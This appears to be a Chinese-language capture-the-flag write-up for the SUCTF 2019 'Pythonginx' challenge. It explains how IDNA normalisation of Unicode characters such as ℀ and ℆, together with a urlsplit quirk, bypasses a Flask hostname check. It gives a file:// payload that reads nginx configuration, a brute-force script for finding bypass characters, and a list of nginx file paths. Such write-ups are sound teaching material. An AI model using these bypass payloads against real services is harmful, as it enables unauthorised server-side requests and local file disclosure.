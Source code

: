 # [SUCTF 2019]Pythonginx

## 知识点

`flask`

`IDNA编码`

`unicode`

## 解题

题目直接给出了源码

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

代码审计大概结果是：前两个判断 `host` 是否是 `suctf.cc` ，如果不是才能继续。然后第三个经过了 `decode(‘utf-8’)` 之后传进了 `urlunsplit` 函数，在第三个判断中又必须要等于 `suctf.cc` 才行。

### 1.IDNA编码漏洞

在`unicode`中字符`℀(U+2100)℆`是(`U+2106`)，当`IDNA`处理此字符时，会将`℀`变成`a/c`，因此当你访问此`url`时，`dns`服务器会自动将`url`重定向到另一个网站。如果服务器引用前端`url`时，只对域名做了限制，那么通过这种方法，我们就可以轻松绕过服务器对域名的限制了。

这也就是说我们传入的`url`为`http://evil.c℀.com`在经过上述处理过后便成为了`http://evil.ca/c.com`

接着用这种方法访问`/getUrl?url=file://suctf.c℆sr/local/nginx/conf/nginx.conf` 得知`flag`的位置

![alt text](<img/[SUCTF 2019]Pythonginx-1.png>)

然后获取`flag`

![alt text](<img/[SUCTF 2019]Pythonginx-2.png>)

### 2.unicode爆破

可以知道是编码问题，且`urlsplit`和`urlparse`存在漏洞，这里我们直接进行脚本爆破，只要得到第`3`个`if`为真前面`2`个为假即可,[生成Unicode](Scripts/gene_unicode.py)

```python
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass
def getUrl(url):
    url = url
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False
if __name__=="__main__":
    get_unicode()
```

![alt text](<img/[SUCTF 2019]Pythonginx-4.png>)

![alt text](<img/[SUCTF 2019]Pythonginx-3.png>)

![alt text](<img/[SUCTF 2019]Pythonginx-5.png>)


1. urlsplit漏洞

 假如我们传入：`file:////www.example.com`,进行了 `list(urlsplit(url))` 函数以后就变成了`['file', '', '//www.example.com', '', '']`。也就是它解析域名块为空了。
但当再执行 `urlunsplit` 时 就会合成为 `file://www.example.com` ，达到绕过的效果


### Nginx重要文件位置
配置文件存放目录：`/etc/nginx`
主配置文件：`/etc/nginx/conf/nginx.conf`
管理脚本：`/usr/lib64/systemd/system/nginx.service`
模块：`/usr/lisb64/nginx/modules`
应用程序：`/usr/sbin/nginx`
程序默认存放位置：`/usr/share/nginx/html`
日志默认存放位置：`/var/log/nginx`
配置文件目录为：`/usr/local/nginx/conf/nginx.conf`


[参考文章](https://mayi077.gitee.io/2020/02/05/SUCTF-2019-Pythonginx/)